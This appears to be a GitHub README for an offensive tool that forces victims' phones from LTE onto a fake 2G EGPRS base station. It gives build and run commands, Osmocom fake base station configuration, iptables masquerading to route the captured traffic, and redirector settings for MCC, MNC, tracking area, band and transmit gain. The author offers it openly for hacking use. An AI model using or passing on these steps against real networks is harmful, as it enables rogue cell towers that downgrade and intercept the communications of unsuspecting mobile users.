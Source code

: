 [build](https://youtu.be/0aruLybY__w)

# LTE-Redirection_Attack

To be more transparent I don't even know if it is still working, I am alone in this project and testing is sometime right or othertimes wrong.
I share it for loving free information but be kind with the dev :) i am not really the "best" at all.
like i say on my github abstract it is what it intent to do not what it do.
pull requests and issues (if they help to make things going further are really welcome)
Have a nice hacking day ;)

Force target victim to unsafe network


Tested on ubuntu 22.04

## Build
```bash
sudo ./build.sh
```


## Run

```bash
sudo ./run.sh
```

2G EGPRS Fake base Station :

Change if not in osmocom terminal osmo-bsc.cfg remote ip 192.168.1.23 by your internet interface : remote ip 192.168.X.X
Change in osmo-sgsn.cfg bind udp local, listen 192.168.1.23 by yours


In Osmocom Popped Terminal (change MCC//MNC accordingly in osmo-bsc.cfg osmo-bsc.cfg)

```bash
./tun.sh
./osmo-all.sh start
osmo-trx-uhd
```

Forward your ip in host terminal:
```bash
bash reset_iptables.sh
./srsepc_if_masq.sh your_interface
######?????  iptables -A POSTROUTING -t nat -s 176.16.32.0/20 ! -d 176.32.16.0/20 -j MASQUERADE
```


LTE Node redirector

```bash
write mcc (replace)
write mnc (relace)
wirte tracking_area_code (replace)
write mcc (replace)
write mnc (replace)
write band (replace)
write dl_earfcn (replace)
write tx_gain 80
write rx_gain 30
start
``` 
